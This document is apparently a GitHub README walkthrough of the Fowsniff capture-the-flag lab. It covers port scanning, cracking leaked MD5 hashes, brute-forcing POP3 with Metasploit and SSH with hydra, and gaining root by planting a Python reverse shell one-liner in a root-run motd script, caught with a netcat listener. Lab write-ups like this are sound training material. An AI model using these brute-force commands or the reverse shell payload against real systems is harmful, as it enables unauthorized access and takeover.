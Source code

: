![Fowsniff CTF](https://github.com/user-attachments/assets/bae4f410-02ca-4d47-8599-148b68e4abcd)

# Fowsniff-Capture The Flag 🔱

Welcome to the world of ethical hacking, where curiosity meets challenge and every keystroke brings you closer to uncovering hidden vulnerabilities. In this Capture the Flag (CTF) adventure, nicknamed **"Fowsniff"**, I'll be stepping into the shoes of a cyber sleuth, navigating through layers of digital defenses to expose the secrets of a vulnerable machine. From port scanning and online sleuthing to cracking hashes and brute-forcing logins, this project is more than just a test of technical skills—it's a journey into the heart of cybersecurity. Join me as I unravel the complexities of **Fowsniff**, one flag at a time. 😁

## Information Gathering 🤓 ## 
The target IP address is provided when the machine is deployed. For this walkthrough, the target IP address is 10.10.110.111.

## Scanning 🩻 ##
**Results**:
- **Port 22/tcp** - SSH - (OpenSSH 7.2p2)
- **Port 80/tcp** - HTTP - (Apache httpd 2.4.18)
- **Port 110/tcp)** - POP3 - (Dovecot pop3d)
- **Port 143/tcp)** - IMAP - (Dovecot imapd)

  ![initial nmap scan](https://github.com/user-attachments/assets/14302e40-3f1e-4e4f-aa0a-88422f970a5b)

## Enumeration 🔬 ##
Access the web server running on port 80 by visiting **htpp://<target_IP>** in the browser. The website reveals that attackers have dumped employee usernames and hashed passwords on Pastebin.

![enum website ](https://github.com/user-attachments/assets/a5865fcc-4eea-41b2-9c8e-bc2e076cf74d)

- We then retrieve the list of usernames and hashed passwords and save the data to files on the local machine.

![Password Hashes](https://github.com/user-attachments/assets/146aeb2c-2134-4165-96c4-c5a7c91de601)

- Crack the MD5 hashes using hashes.com and save the results to hashcracked.txt.

![Hashes decrypted](https://github.com/user-attachments/assets/830dbd85-d7d7-4346-bac7-55c56c816d82)

- Create files for both **usernames** (username.txt) and the newly cracked **passwords** (password.txt.

## Gaining Access 🕸️ ##

- Use Metasploit module for brute forcing the POP3 service: 

  - msfconsole
  - use auxiliary/scanner/pop3/pop3_login
  - set RHOSTS 10.10.110.111
  - set USER_FILE username.txt
  - set PASS_FILE password.txt
  - exploit

![set options in metasploit](https://github.com/user-attachments/assets/ecf9f1c0-aacf-4024-a540-1dfd6e234e04)

- Running the Metasploit module, we find a matching username and password.  We are now able to connect to the POP3 mail server 📨 !!!

![used hydra to dictionary attack](https://github.com/user-attachments/assets/8fb317ff-0597-4a30-9291-617e8a9fd51b)

- Connect to the POP3 service using the newly found credentials:
  - nc <target_IP>
    - *user* <username>
    *password* <password>

- We come across two emails we can view:

![list messages](https://github.com/user-attachments/assets/2dba789f-f52c-4b97-9a35-3b9c7c2544dc)

- Retrieve the emails:
  LIST; RETR 1; RETR 2

![SSH password email sent](https://github.com/user-attachments/assets/41885922-031d-4581-bbf6-84548941d8b4)

- In the second email we accessed, we can view a temp password for SSH and a possible username.
- Next, use hydra to brute force the SSH login:
  - hydra -L users.txt -p "<password>" ssh://<target_IP>
  - or, the first email can shed light on the username.
- Next, we attempt to connect via SSH

![SSH connection](https://github.com/user-attachments/assets/3d6c8518-a748-4351-a11d-fab27a726038)


## Privilege Escalation 🪃

- Once logged in, enumerate the system:
  - Once the SSH connection is established, we must discover what group(s) the user "baksteen" belongs
  - The user belongs to a group called "users" with permission to run '**/opt/cube/cube/sh**'
    - Running this script looks exactly like the banner displayed when logging in via SSH
   
![Screenshot 2024-09-01 at 6 47 56 PM](https://github.com/user-attachments/assets/2661a901-2a0f-4dc7-9d5f-45657e7f54b0)

- Look in the '**/etc/update-motd.d/00-header**' folder and the '**00-header**' file shows that the '**/opt/cube/cube.sh**' file is run when a user connects to the 
  machine using SSH (and will run as root user).
  - Since this script is executed as root when an SSH connection is made, we can edit the **cube.sh** file by inserting a Python reverse shell that will trigger 
    once our user logs in via SSH (make sure to replace you local IP and listener port):
    - **python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-IP>",1234));os.dup2(s.fileno(),0); 
         os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'** 
  - Set up a Netcat listener on local machine: **nc -nlvp 1234**
  - In a seperate terminal, SSH back into the machine: **ssh <username>@<target_IP>**
  - The reverse shell should connect to your listener.  Access the root directory and read the flag:
    - cd /root

    - cat flag.txt
   
![flag captured](https://github.com/user-attachments/assets/3ccb6ba7-0d07-4856-95c2-c0247692e722)










